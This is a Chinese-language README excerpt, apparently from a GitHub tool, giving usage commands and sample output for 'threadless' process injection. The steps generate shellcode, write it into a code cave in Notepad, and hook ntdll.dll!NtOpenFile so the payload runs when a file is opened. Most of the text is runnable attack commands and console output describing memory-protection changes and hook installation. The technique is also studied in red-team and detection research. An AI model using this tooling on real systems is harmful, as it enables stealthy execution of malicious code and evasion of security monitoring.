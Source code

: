 ### 执行

```cmd
# 基本用法
build\threadless_inject.exe <PID> <DLL名称> <导出函数> [shellcode文件]

# 示例：注入到记事本进程
# 1. 启动记事本
start notepad

# 2. 获取 PID（如 1234）
tasklist | findstr notepad

# 3. 生成 shellcode
build\generate_shellcode.exe calc payload.bin

# 4. 注入（使用 NtOpenFile，打开文件时触发）
build\threadless_inject.exe 1234 ntdll.dll NtOpenFile payload.bin

# 5. 触发执行（在记事本中打开文件）
#    点击 "文件" -> "打开"

# 输出示例：
# ======================================
#   Threadless Inject - 无线程注入
# ======================================
#
# [1] 定位导出函数
#     [+] 找到 ntdll.dll!NtOpenFile @ 0x00007FF8B2C10000
#
# [2] 打开目标进程
#     [+] 成功打开进程 PID=1234
#
# [3] 分配内存
#     [*] 查找内存洞穴（在 0x00007FF8B2C10000 ±2GB 范围内）
#     [+] 找到内存洞穴：0x00007FF8B2A00000（大小：120 字节）
#
# [4] 读取原始字节
#     [+] 原始字节：0x4C8BD1E988000000
#
# [5] 生成 Hook Stub
#     [+] Hook Stub 已生成（大小：55 字节）
#
# [6] 构建载荷
#     [+] 载荷大小：120 字节（Stub: 55 + Shellcode: 65）
#
# [7] 写入载荷到目标进程
#     [+] 已写入 120 字节到 0x00007FF8B2A00000
#
# [8] 修改内存保护
#     [+] 内存保护已修改为 PAGE_EXECUTE_READ
#
# [9] 生成 Hook
#     [*] 相对偏移：0xFFFFFFFFFFE00000
#     [*] Call 指令：E8 FB FF DF FF
#
# [10] 修改导出函数内存保护
#     [+] 导出函数内存保护已修改为 PAGE_EXECUTE_READWRITE
#
# [11] 写入 Hook
#     [+] Hook 已安装到 ntdll.dll!NtOpenFile
#
# [12] 等待 Hook 触发
```